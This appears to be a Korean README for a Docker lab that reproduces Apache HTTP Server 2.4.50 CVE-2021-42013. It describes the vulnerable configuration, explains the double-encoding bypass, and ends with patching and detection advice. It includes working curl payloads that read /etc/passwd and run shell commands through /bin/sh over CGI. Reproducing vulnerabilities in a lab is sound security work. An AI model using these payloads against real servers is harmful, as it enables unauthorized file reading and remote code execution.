


# Apache HTTP Server 2.4.50 Path Traversal & RCE (CVE-2021-42013)

 `docker compose up -d` 단일 명령으로 취약 환경이 완성되며, curl 만으로 임의 파일 읽기와 원격 코드 실행(RCE)이 재현됩니다.

| 항목 | 내용 |
|---|---|
| CVE | **CVE-2021-42013** (CVE-2021-41773 패치 우회) |
| 제품 | Apache HTTP Server **2.4.49, 2.4.50** |
| 유형 | Path Traversal (CWE-22) → Remote Code Execution |
| CVSS 3.1 | **9.8 (Critical)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| 인증 | 불필요 (Unauthenticated) |
| 참고 | CISA KEV 등재, 실제 대규모 스캐닝/악용 관측 |

---

## 1. 취약점 요약

Apache HTTP Server 2.4.49의 경로 정규화 취약점(CVE-2021-41773)에 대한 2.4.50의 패치가 불완전하여 발생한 우회 취약점이다.

- 2.4.49: `.%2e/` 처럼 단일 URL 인코딩된 점으로 경로 탐색 가능 → 2.4.50에서 차단
- 2.4.50: 서버가 URL을 2번 디코딩하는 로직이 남아 있어, `%%32%65`(→ `%2e` → `.`) 형태의 더블 URL 인코딩으로 동일한 경로 탐색이 다시 가능

Alias 계열 지시어로 매핑된 디렉터리(`/cgi-bin/` 등) 기준으로 `../` 를 주입하면 문서 루트 밖 파일시스템에 접근할 수 있고, 해당 경로가 기본 보호(`Require all denied`)로 막혀 있지 않으면 **임의 파일 읽기**가 성립한다. 나아가 `mod_cgi`/`mod_cgid`가 활성화되어 있으면 `/bin/sh` 등 시스템 바이너리를 CGI로 실행시켜 **RCE**로 확장된다.

---

## 2. 환경 구성

외부의 취약 이미지에 의존하지 않고, **Apache 공식 소스 아카이브에서 2.4.50을 직접 컴파일**하여 자기완결형으로 환경을 구성한다.

```
CVE-2021-42013/
├── Dockerfile          # httpd 2.4.50 소스 빌드 + 취약 설정 적용
├── docker-compose.yml  # 8080:80 매핑
├── vuln.conf           # 취약 Apache 설정
├── poc.sh              # 파일 읽기 + RCE 자동 재현
├── img1.jpg            # Apache 기본 페이지 스크린샷
├── img2.jpg            # PoC 실행 결과 스크린샷
└── README.md
```

**빌드 및 실행 (단일 명령)**
```bash
docker compose up -d --build
```
> 기동 후 `http://localhost:8080` 에서 Apache 기본 페이지(It works!)를 확인할 수 있다.



**정리**
```bash
docker compose down
```

---

## 3. 취약 조건

기본 설정의 Apache는 취약하지 않다. 아래 **non-default 설정**이 함께 충족될 때 취약점이 성립하며, 본 환경의 `Dockerfile`이 이를 의도적으로 구성한다.

1. **버전**: Apache HTTP Server 2.4.49 또는 2.4.50 (본 환경은 2.4.50)
2. **파일시스템 접근 허용**: `<Directory />` 의 `Require all denied` → `Require all granted` 로 변경
   → Alias 밖 경로 접근이 허용되어 경로 탐색으로 임의 파일 읽기 가능
3. **CGI 실행 허용**: `mod_cgid` 로드 + `/cgi-bin/` ScriptAlias + `cgi-bin` 디렉터리 CGI 실행 허용
   → 경로 탐색으로 `/bin/sh` 를 CGI 실행시켜 RCE 성립

관련 설정(Dockerfile에서 적용):
```apache
<Directory />
    AllowOverride none
    Require all granted        # (원래 denied)
</Directory>

LoadModule cgid_module modules/mod_cgid.so
ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"

<Directory "/usr/local/apache2/cgi-bin">
    Options +ExecCGI
    Require all granted
</Directory>
```

---

## 4. 재현 절차

### 4.1 임의 파일 읽기 (`/etc/passwd`)
```bash
curl -s --path-as-is \
  "http://localhost:8080/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd"
```

### 4.2 원격 코드 실행 (`id`)
```bash
curl -s --path-as-is \
  "http://localhost:8080/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh" \
  --data 'echo Content-Type: text/plain; echo; id'
```

### 4.3 자동화 스크립트
```bash
chmod +x poc.sh
./poc.sh                          # 기본 http://localhost:8080
./poc.sh http://localhost:8080    # 대상 지정도 가능
```

> `--path-as-is` 는 curl 이 `../` 를 클라이언트에서 미리 정규화하지 못하도록 하여, 인코딩된 경로가 서버로 그대로 전달되게 한다.

---

## 5. PoC 코드 및 페이로드 원리

**더블 인코딩 분해**

| 표기 | 1차 디코딩 | 2차 디코딩 |
|---|---|---|
| `%%32%65` | `%2e` | `.` |
| `%%32%65%%32%65` | `%2e%2e` | `..` |

- `%32` → `2`, `%65` → `e` 이므로 `%%32%65` 는 1차 디코딩 시 `%2e` 가 되고, 2.4.50의 추가 디코딩 단계에서 `.` 이 된다.
- 따라서 `/cgi-bin/%%32%65%%32%65/…` 는 서버 내부적으로 `/cgi-bin/../…` 로 해석되어 경로 탐색이 성립한다.
- RCE는 ScriptAlias된 `/cgi-bin/` 을 경유해 `/bin/sh` 로 탈출한 뒤, POST 본문(`echo Content-Type…; id`)을 CGI 표준입력으로 넘겨 명령을 실행하는 원리다.

전체 PoC는 [`poc.sh`](poc.sh) 참고.

---

## 6. 실행 결과

> 아래 이미지는 **직접 재현**한 화면이다. `docker compose ps`로 컨테이너 실행 상태를 확인한 뒤, `poc.sh`를 실행하여 임의 파일 읽기와 RCE를 재현한 결과이다.

**컨테이너 실행 확인 + PoC 실행 결과 (임의 파일 읽기 `/etc/passwd`, RCE `id`, `uname -a`)**



기대 출력 예시:
```
# [1] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

# [2] id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

---

## 7. 대응 방안

- **패치**: Apache HTTP Server **2.4.51 이상**으로 업그레이드 (2.4.49/2.4.50만 영향)
- **설정 강화**:
  - 모든 `<Directory />` 블록에 `Require all denied` 유지 (기본값 보존)
  - 불필요한 CGI 모듈 비활성화 (`mod_cgi`/`mod_cgid`)
  - Alias/ScriptAlias로 매핑되지 않은 파일시스템 접근 차단
- **탐지/완화**: WAF에서 `..`, `%2e`, 더블 인코딩(`%25`) 패턴 및 `/cgi-bin/`·`/bin/sh` 접근 요청 차단, httpd 하위 프로세스로 `sh`/`id`/`uname` 등 비정상 자식 프로세스 생성 모니터링

